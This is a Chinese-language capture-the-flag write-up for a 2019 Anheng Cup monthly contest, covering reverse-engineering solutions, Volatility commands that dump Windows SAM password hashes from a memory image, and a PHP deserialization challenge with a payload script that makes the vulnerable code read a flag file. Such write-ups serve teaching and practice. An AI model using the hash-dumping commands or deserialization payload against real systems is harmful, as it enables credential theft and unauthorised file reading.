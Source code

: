 ## 2019安恒杯1月月赛题目解析

[两个Reverse](https://github.com/D4rkD0g/2019_Recoder/blob/master/01.January/2019-01-26.zip)  

#### Reverse 1

[python-exe-unpacker](https://github.com/countercept/python-exe-unpacker)  
[uncompyle6](https://github.com/rocky/python-uncompyle6)

解包之后加个文件头，反编译一下即可：  

```Python
import os
n1 = input('Tell me your name?')
n2 = input('Tell me your pasw')
n11 = chr(ord(n1[0]) + 12)
s = ''
st3 = '51e'
st2 = '9f1ff1e8b5b91110'
st1 = 'c4e21c11a2412'
st0 = 'wrong'
if n11 + 'AnHeng' == n2:
    for i in range(0, 4):
        s += st1[3 - i]

    print('Congratulations')
    ts = st2[0] + st3 + st2[1] + s
    print('flag{' + st3[:1] + st1 + st2 + st3[-2:] + '}')
    os.system('pause')
else:
    print('no,' + st0)

```

#### Reverse 2

首先自修修改SMC  
```Python
with open("./Old-drive3.exe", "rb") as f:
    data = f.read()

f.close()
data = list(data)
for i in range(0, 0x261):
    data[0x400 + i] = chr(ord(data[0x400 + i]) ^ 0xBB)

with open("./Old-drive3-new.exe", "wb") as f:
    f.write(''.join(data))
f.close()
```

然后一个base64解码  

最后一个小游戏？这个小游戏很新奇啊。。。不过也不难

按照专业角度我是不是应该写IDAPython来首先解码一下。。。


#### Misc 1 

内存取证，获取镜像文件的登录密码

```bash
vol.py -f memory imageinfo
vol.py -f memory –profile=WinXPSP2x86 hivelist
vol.py -f memory –profile=WinXPSP2x86 hashdump sys-offset=0xe101b008 sam-offset=0xe1451b60
```

先获取镜像的系统信息，之后注册表得到SAM信息，最后dump下来，解密


#### Web 1

php反序列化，不会

```php
<?php  
@error_reporting(1); 
include 'flag.php';
class baby 
{   
    protected $skyobj;  
    public $aaa;
    public $bbb;
    function __construct() 
    {      
        $this->skyobj = new sec;
    }  
    function __toString()      
    {          
        if (isset($this->skyobj))  
            return $this->skyobj->read();      
    }  
}  

class cool 
{    
    public $filename;     
    public $nice;
    public $amzing; 
    function read()      
    {   
        $this->nice = unserialize($this->amzing);
        $this->nice->aaa = $sth;
        if($this->nice->aaa === $this->nice->bbb)
        {
            $file = "./{$this->filename}";        
            if (file_get_contents($file))         
            {              
                return file_get_contents($file); 
            }  
            else 
            { 
                return "you must be joking!"; 
            }    
        }
    }  
}  
  
class sec 
{  
    function read()     
    {          
        return "it's so sec~~";      
    }  
}  

if (isset($_GET['data']))  
{ 
    $Input_data = unserialize($_GET['data']);
    echo $Input_data; 
} 
else 
{ 
    highlight_file("./index.php"); 
} 
?>
```

类似的[题目](https://altman.vip/2018/01/14/CUMTCTF2018/#pop)  

```php
<?php  
@error_reporting(1); 
class sky 
{      
    protected $skyobj;  
    function __construct() 
    {          
        $this->skyobj = new sec;     
       }  
    function __toString()      
    {          
        if (isset($this->skyobj))  
            return $this->skyobj->read();      
    }  
}  

class nosec 
{    
    public $filename;      
    function read()      
    {    
        $file = "./{$this->filename}";        
        if (file_get_contents($file))         
        {              
            return file_get_contents($file); 
        }  
        else 
        { 
            return "you must be joking!"; 
        }      
    }  
}  
  
class sec 
{  
    function read()     
    {          
        return "it's so sec~~";      
    }  
}  

if (isset($_GET['data']))  
{ 
    $Input_data = unserialize($_GET['data']);  
    echo $Input_data; 
} 
else 
{ 
    highlight_file("./index.php"); 
} 
?>
```

思路：调用`__toString()`函数里的`return $this->skyobj->read();`函数,读文件找flag。
data参数在被反序列化的过程中调用`_construct()`函数，然后直接输出对象引用时调用`__toString()`，read()读取flag。

```php
<?php
class sky
{
    protected $skyobj;
    function __construct()
    {
        $this->skyobj = new nosec();
    }
    function __toString()
    {
        if (isset($this->skyobj))
            return $this->skyobj->read();
    }
}

class nosec
{
    public $filename='flag.php';
    function read()
    {   
        $file = "./{$this->filename}";
        if (file_get_contents($file))
        {
            return file_get_contents($file);
        }
        else
        {
            return "you must be joking!";
        }
    }
}

$aa = new sky();
$aa= urlencode(serialize($aa));
echo $aa;
```
